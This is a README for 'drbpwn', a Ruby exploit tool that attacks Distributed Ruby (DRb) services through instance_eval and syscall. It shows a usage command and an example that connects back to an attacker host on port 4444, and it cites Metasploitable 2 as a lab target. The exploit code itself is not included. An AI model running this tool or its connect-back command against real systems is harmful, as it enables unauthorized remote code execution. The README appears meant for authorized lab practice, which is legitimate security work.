 # drbpwn

## Description
This Ruby script provides a workaround for exploiting Distributed Ruby (DRb) vulnerabilities using instance_eval and syscall methods. It aims to serve as an alternative to the missing Metasploit module for DRb exploitation. While the Metasploit module might reappear in future versions, this script can be utilized in the meantime when other exploits are not readily available.

## Usage
To use the script, follow the syntax below:

```ruby drbpwn.rb <target_host> <target_port> [<attacker_host>] [<attacker_port>]```

### Arguments
- `<target_host>`: The hostname or IP address of the target machine.
- `<target_port>`: The port number on which the DRb service is running on the target machine.
- `<attacker_host>`: The hostname or IP address of the attacker machine.
- `[<attacker_port>]`: (Optional) The port number to be used for the attacker's payload. Defaults to `4444` if not provided.

## Example
```ruby drbpwn.rb 192.168.0.100 8787 192.168.0.107```


In this example, the script will attempt to exploit the DRb service running on `192.168.0.100` at port `8787` and connect back to attacker at 192.168.0.107 at port 4444

## Note
Ensure that you have proper authorization before attempting to exploit any system. This script is provided for educational purposes and should only be used in environments where you have explicit permission to do so. Also, this script can be used to exploit the vulnerable service running on the Metasploitable 2 VM on port 8787.
